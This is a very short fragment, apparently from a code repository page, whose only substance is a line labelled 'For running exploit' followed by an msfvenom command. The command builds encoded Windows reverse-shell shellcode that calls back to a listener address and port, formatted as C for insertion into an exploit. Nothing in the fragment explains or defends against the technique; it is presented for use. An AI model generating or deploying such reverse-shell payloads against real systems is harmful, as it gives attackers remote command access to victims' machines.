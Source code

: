 For running exploit -->  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100  LPORT=2065 -e x86/shikata_ga_nai -b "\x00" -f c
